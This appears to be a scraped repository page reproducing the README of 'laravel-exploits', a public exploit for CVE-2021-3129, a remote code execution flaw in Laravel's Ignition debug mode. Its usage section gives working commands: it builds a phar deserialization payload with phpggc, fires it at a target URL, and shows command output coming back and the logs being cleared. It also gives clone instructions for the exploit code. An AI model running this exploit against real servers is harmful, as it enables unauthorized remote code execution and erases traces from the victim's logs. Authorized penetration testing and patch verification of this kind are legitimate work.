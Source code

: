 # laravel-exploits

Exploit for CVE-2021-3129

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/ambionics](https://github.com/ambionics) |
| Url      | [https://github.com/ambionics/laravel-exploits](https://github.com/ambionics/laravel-exploits)                                               |
| Stars    | 239                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# laravel-exploits
Exploit for CVE-2021-3129
Details: https://www.ambionics.io/blog/laravel-debug-rce

# Usage

```bash
$ php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system id 
$ ./laravel-ignition-rce.py http://localhost:8000/ /tmp/exploit.phar
Log file: /work/pentest/laravel/laravel/storage/logs/laravel.log
Logs cleared
Successfully converted to PHAR !
Phar deserialized
--------------------------
uid=1000(cf) gid=1000(cf) ...
--------------------------
Logs cleared
```



## Get the content

```
git clone https://github.com/ambionics/laravel-exploits
cd laravel-exploits
```

{% embed url="https://github.com/ambionics/laravel-exploits" %}

<figure><img src="https://avatars.githubusercontent.com/u/29630660?v=4" alt=""><figcaption><p>ambionics</p></figcaption></figure>
